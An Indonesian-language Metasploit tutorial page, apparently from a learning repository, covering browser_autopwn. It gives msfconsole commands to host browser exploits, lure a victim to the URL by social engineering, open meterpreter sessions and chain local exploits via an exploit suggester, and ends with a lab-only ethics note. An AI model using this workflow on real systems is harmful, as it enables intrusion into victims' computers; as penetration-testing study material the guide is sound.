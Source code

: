 <p align="left">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Teknik%20Persistence%20pada%20Target.md">Teknik Persistence pada Target</a>
</p>

# Eksploitasi Otomatis dengan AutoPwn 

## A. Apa itu AutoPwn?

[AutoPwn](https://github.com/beefproject/beef/wiki/Metasploit#browser-autopwn) adalah fitur dari Metasploit yang secara otomatis memuat berbagai eksploit dan menyerang target berdasarkan kerentanannya, terutama melalui browser (client-side attack).

Modul terkait:

```
auxiliary/server/browser_autopwn
```

> Fitur ini sudah deprecated dalam versi baru, tetapi konsepnya masih digunakan dalam serangan berbasis exploit suggestion + exploit chaining.

Prasyarat:
- Kali Linux dengan Metasploit terinstal.
- Browser korban (misalnya `Windows 7` + `IE`, `Firefox` versi lama).
- Jaringan lokal/lab untuk pengujian.
- Pengetahuan dasar Metasploit.

### 1. Setup AutoPwn

1. Jalankan Metasploit:

   ```
   msfconsole
   ```

2. Gunakan Modul AutoPwn:

   ```
   use auxiliary/server/browser_autopwn
   ```

3. Atur Parameter Penting:

   ```
   set LHOST 192.168.1.10
   set SRVHOST 192.168.1.10
   set SRVPORT 80
   set SSL false
   set verbose true
   ```

   Keterangan:
   - `LHOST`: IP Attacker
   - `SRVHOST`:  IP hosting payload
   - `SRVPORT`: Port hosting payload
   - `SSL`: Non-SSL (HTTP)
   - `VERBOSE`: Menampilkan output lebih detail (debugging)
  
4. Jalankan:

   ```
   run
   ```

   Metasploit akan:
   - Menjalankan web server dengan banyak exploit browser.
   - Membuat payload otomatis.
   - Menunggu korban mengakses URL (via social `engineering`, `email`, `dsb`).
   - Menyuntikkan exploit dan mencoba men-deploy payload.
  
### 2. Teknik Penyebaran

Kirim URL ke korban: http://192.168.1.100/
- Jika browser rentan (`IE6`, `Firefox 10`, `dll`), exploit akan dikirim.
- Otomatis membuka sesi meterpreter.

### 3. Hasil Eksploitasi

Cek sesi:

```
sessions -l
```

Interaksi:

```
sessions -i 1
```

### 4. Alternatif: Auto Exploitation dengan Exploit Suggestion

Langkah:

```
use post/multi/recon/local_exploit_suggester
set SESSION 1
run
```
 
Kemudian gunakan exploit yang disarankan:

```
use exploit/linux/local/xxx
set SESSION 1
run
```

## Catatan Etis dan Legal
- AutoPwn hanya boleh digunakan dalam lab atau lingkungan izin.
- Jangan digunakan terhadap sistem publik atau tanpa persetujuan.
- Risiko legal dan etika sangat tinggi jika digunakan sembarangan.


<p align="right">
  <a href="https://github.com/fixploit03/Belajar-Metasploit-Framework/blob/main/resource/Tips%20dan%20Trik%20Penggunaan%20Metasploit%20Efisien.md">Tips dan Trik Penggunaan Metasploit Efisien</a>
</p>
